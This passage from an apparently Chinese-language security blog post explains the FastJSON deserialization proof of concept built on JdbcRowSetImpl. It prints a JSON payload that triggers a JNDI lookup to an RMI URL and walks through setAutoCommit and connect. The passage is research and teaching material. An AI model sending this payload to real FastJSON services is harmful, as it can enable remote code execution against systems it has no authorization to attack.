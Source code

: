 ### 案例二：FastJSON反序列化POC JdbcRowSetImpl类

fastjson由于`@type`的存在，在受影响的版本中，其可以对任意指定的对象进行反序列化，根据规则自动调用setter/getter来达到实例还原的目的。首先来看一下POC

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/obj","autoCommit":true}
```

这里的关键在于autoCommit，来看一下JdbcRowSetImpl的setAutoCommit函数

![image-20200205125555341](/images/jndi-with-rmi-20200209/image-20200205125555341-1255889.png)

这里如果conn为null的话，会调用connect函数，看一下connect函数

![image-20200205125714780](/images/jndi-with-rmi-20200209/image-20200205125714780-1255889.png)
